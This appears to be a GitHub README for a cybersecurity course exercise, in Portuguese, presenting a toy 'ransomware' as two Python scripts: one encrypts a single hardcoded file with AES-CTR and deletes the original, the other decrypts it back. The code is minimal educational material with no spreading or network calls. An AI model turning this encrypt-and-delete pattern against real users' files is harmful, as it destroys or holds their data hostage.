 # desafio-ransomware-curso-cyber-DIO
Criação ransomware pelo Kali linux - Desafio de Projeto - curso Cybersecurity Specialist

Print do arquivo py decrtpter.py

![image](https://github.com/W1ll14m92/desafio-ransomware-curso-cyber-DIO/assets/87369166/14f7aefc-c45d-416a-8055-4ebdb9403424)

Codigo 

import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()


print do arquivo encrypter.py 

![image](https://github.com/W1ll14m92/desafio-ransomware-curso-cyber-DIO/assets/87369166/9ea351ad-47c8-4a10-a49f-3b0adbbc0936)

codigo fonte:

import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()


